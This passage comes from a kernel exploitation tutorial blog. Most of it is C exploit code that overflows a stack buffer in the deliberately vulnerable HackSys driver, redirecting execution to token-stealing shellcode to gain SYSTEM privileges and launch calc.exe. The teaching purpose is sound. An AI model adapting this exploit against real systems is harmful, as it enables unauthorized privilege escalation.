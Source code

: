 	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("Failed to get device handle :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Got the device Handle: 0x%X\r\n", hDriver);
	printf("Allocating Memory For Input Buffer\r\n");

	lpInBuffer = (PUCHAR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, nInBufferSize);

	if (!lpInBuffer) {
		printf("HeapAlloc failed :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Input buffer allocated as 0x%X bytes.\r\n", nInBufferSize);
	printf("Input buffer address: 0x%p\r\n", lpInBuffer);
	
	printf("Filling buffer.\r\n");

	memset(lpInBuffer, 0x41, nInBufferSize);
	memset(lpInBuffer + 2076, 0x42, 4); //To overwrite EBP
	lpInBuffer[2080] = (DWORD)&TokenStealingShellcodeWin7 & 0x000000FF;
	lpInBuffer[2080 + 1] = ((DWORD)&TokenStealingShellcodeWin7 & 0x0000FF00) >> 8;
	lpInBuffer[2080 + 2] = ((DWORD)&TokenStealingShellcodeWin7 & 0x00FF0000) >> 16;
	lpInBuffer[2080 + 3] = ((DWORD)&TokenStealingShellcodeWin7 & 0xFF000000) >> 24;
	
	printf("Buffer ready - sending IOCTL request\r\n");

	DeviceIoControl(hDriver,
		HACKSYS_EVD_IOCTL_STACK_OVERFLOW,
		(LPVOID)lpInBuffer,
		(DWORD)nInBufferSize,
		NULL, //No output buffer - we don't even know if the driver gives output #yolo.
		0,
		&lpBytesReturned,
		NULL); //No overlap

	//pop calc and everybody freeze
	system("calc.exe");
	_getch();

	printf("IOCTL request completed, cleaning up da heap.\r\n");
	HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);
	CloseHandle(hDriver);
	return 0;
}
</pre>
Now we compile our code and then run it and…
![calc.exe running as system](https://raw.githubusercontent.com/sam-b/intro-to-kernel-exploitation/master/screenshots/part_3/calc_system.PNG)
We’re done :D

The source code for the full exploit can also be found [here.](https://github.com/sam-b/intro-to-kernel-exploitation)

In [part 3](http://samdb.xyz/2017/06/22/intro_to_kernel_exploitation_part_3.html) we'll look at exploiting this vulnerability when the function has been compiled with stack cookies enabled.
